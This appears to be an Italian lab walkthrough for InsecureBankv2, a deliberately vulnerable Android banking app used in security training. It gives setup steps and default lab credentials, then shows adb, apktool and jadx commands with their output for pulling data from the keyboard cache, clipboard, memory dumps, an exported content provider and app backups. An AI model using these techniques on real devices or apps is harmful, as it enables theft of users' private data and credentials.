 # Android-InsecureBankv2

> https://github.com/dineshshetty/Android-InsecureBankv2

## Server setup

`$ cd AndroLabServer`

`# pip install -r requirements.txt`

`$ python app.py`

## App setup

- accedi all'app

- usa una delle seguenti credenziali

	- dinesh/Dinesh@123$
	- jack/Jack@123$

- configura indirizzo IP e porta della macchina sul quale è attivo `AndroLabServer`

### Utils

#### Apktool To Smali

`$ apktool d InsecureBankv2.apk`

#### Decompiling Android Applications

> https://github.com/skylot/jadx

`$ jadx-gui InsecureBankv2.apk`

#### Reading Android Memory

in Android Studio apri il codice dell'app

`Run` -> `Profile...` -> `1. app`

`+` -> `Emulator Unknown` -> `com.android.insecurebankv2`

tasto destro -> `Open memory` -> `Record`

usa l'app

`Dump Java Heap`

`$ hprof-conv memory-*.hprof memory-*-formatted.hprof`

apri `memory-*-formatted.hprof` con [MemoryAnalyzer](https://www.eclipse.org/mat/downloads.php)

`Group by package`

`com` -> `android` -> `insecurebankv2` -> tasto destro su una qualsiasi classe -> `List object with` -> `outgoing preferences`

#### Android Keyboard Cache

dal login `Add to dictionary` dell'username

- `$ adb pull /data/data/com.android.providers.userdictionary/databases/user_dict.db`

- `$ sqlite3 user_dict.db`

- `sqlite> select * from words;`

```
...
1|dinesh|250|en_US|0|
...
```

#### Android Pasteboard

- `$ adb shell ps | grep insecure`

```
u0_a60    6101  1153  1301764 55260 ffffffff 30ac5b7a S com.android.insecurebankv2
```

- `$ adb shell su u0_a60 service call clipboard 2 s16 com.android.insecurebankv2`

```
Result: Parcel(
  0x00000000: 00000000 00000001 00000001 ffffffff '................'
  0x00000010: 00000001 0000000a 00650074 00740078 '........t.e.x.t.'
  0x00000020: 0070002f 0061006c 006e0069 00000000 '/.p.l.a.i.n.....'
  0x00000030: 00000000 00000001 00000000 0000000c '................'
  0x00000040: 00310031 00310031 00310031 00310031 '1.1.1.1.1.1.1.1.'
  0x00000050: 00310031 00310031 00000000 00000014 '1.1.1.1.........'
  0x00000060: 00000000 00000000 0000000c 00000021 '............!...'
```

#### Android Content Provider

> app/src/main/AndroidManifest.xml

```
<provider android:authorities="com.android.insecurebankv2.TrackUserContentProvider" android:exported="true" android:name="com.android.insecurebankv2.TrackUserContentProvider"/>
```

- `$ grep "content://" -r InsecureBankv2/`

```
InsecureBankv2/smali/com/android/insecurebankv2/TrackUserContentProvider.smali:.field static final URL:Ljava/lang/String; = "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers"
```

- `$ adb shell content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers`

```
Row: 0 id=1, name=jack
Row: 1 id=2, name=jack
Row: 2 id=3, name=jack
```

#### Android Backup Functionalities

> app/src/main/AndroidManifest.xml

```
<application android:allowBackup="true" android:debuggable="true" android:icon="@mipmap/ic_launcher" android:label="@string/app_name" android:theme="@android:style/Theme.Holo.Light.DarkActionBar">
```

- `$ adb backup -apk -shared com.android.insecurebankv2`

- `$ ( printf "\x1f\x8b\x08\x00\x00\x00\x00\x00" ; tail -c +25 backup.ab ) |  tar xfvz -`

- `$ cat apps/com.android.insecurebankv2/sp/mySharedPreferences.xml`

```
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="superSecurePassword">vK3CrqW6+zg1s9V0YZp0Uw==
    </string>
    <string name="EncryptedUsername">amFjaw==
    </string>
</map>
```

- `$ cat apps/com.android.insecurebankv2/sp/com.android.insecurebankv2_preferences.xml`

```
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="serverport">8888</string>
    <string name="serverip">192.168.1.77</string>
</map>
```

